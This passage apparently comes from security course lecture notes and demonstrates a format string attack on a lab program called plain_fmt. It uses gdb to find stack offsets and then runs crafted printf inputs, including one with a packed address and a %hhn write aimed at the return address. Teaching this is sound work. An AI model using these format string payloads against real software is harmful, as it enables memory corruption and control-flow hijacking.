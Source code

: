 Now we're under gdb, let's print the entire stack frame:

``` {.example}
(gdb) x/12x $esp
0xbffff610: 0x00000002  0xbffff6d4  0xbffff6e0  0xb7e4d42d
0xbffff620: 0xb7fc43c4  0xb7fff000  0x080484db  0xb7fc4000
0xbffff630: 0x080484d0  0x00000000  0x00000000  0xb7e33a83
(gdb) x/x $ebp+0x4
0xbffff63c: 0xb7e33a83
```

So the address of the return is at 0xbffff63c. And taking a full
programatic step after the assignment of 0xdeadbeef, we can see what
address deadbeef is at:

``` {.example}
(gdb) n
14    printf(argv[1]);
(gdb) x/12x $esp
0xbffff610: 0x00000002  0xbffff6d4  0xbffff6e0  0xb7e4d42d
0xbffff620: 0xb7fc43c4  0xb7fff000  0x080484db  0xdeadbeef
0xbffff630: 0x080484d0  0x00000000  0x00000000  0xb7e33a83
```

Let's take account of what we know: (1) The return address is at
0xbffff63c and (2) the address of deadbeef is 0x10 less at 0xbffff62c.
Let's continue the program:

``` {.example}
(gdb) c
Continuing.
AAAABBBBCCCCDDDDbffff6d4.2f000000.bffff6d4.656d6f68.bffff6d4.6573752f.bffff6d4.69672f72.0xdeadbeef
[Inferior 1 (process 2980) exited with code 012]
```

Looking at the output, we see the address 0xbffff6d4. This is a valid
address and we can use this to calculate an offset from. So, the address
of deadbeef is 0xa8 bytes offset (0xbfff6d4-0xa8), and the return
address is offset 0x98 from that address (0xbffff6d4-0x98).

Now, we can take that information *outside* of gdb to try and determine
what is going on and find the address we are looking for.

``` {.example}
user@si485H-base:demo$ ./plain_fmt AAAABBBBCCCCDDDD%1\$008x.%123\$00x.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
AAAABBBBCCCCDDDDbffff724.41414141.bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
```

Now we see the address 0xbffff724. Using the same calculation, the
address of deadbeef should be at 0xbffff724-0xa8, or 0xbffff67c. And the
address of return address should be 0xbffff68c. Let's see if we can
cause some mischief:

``` {.example}
user@si485H-base:demo$ ./plain_fmt $(printf "\x8c\xf6\xff\xbf")BBBBCCCCDDDD%1\$008x.%123\$hhn.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
???BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
????BBBBCCCCDDDDbffff724..bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
(...)
```

